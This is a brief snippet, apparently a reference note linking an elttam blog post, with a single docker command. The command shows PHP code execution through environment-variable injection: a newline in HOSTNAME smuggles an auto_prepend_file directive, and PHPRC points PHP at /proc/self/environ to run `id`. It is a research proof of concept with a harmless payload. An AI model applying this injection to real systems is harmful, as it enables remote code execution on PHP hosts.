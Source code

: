x
-

[see](https://www.elttam.com/blog/env/)
````sh
docker run -e $'HOSTNAME=1;\nauto_prepend_file=/proc/self/environ\n;<?php die(`id`); ?>' -e 'PHPRC=/proc/self/environ' php:7.3 php /dev/null
````
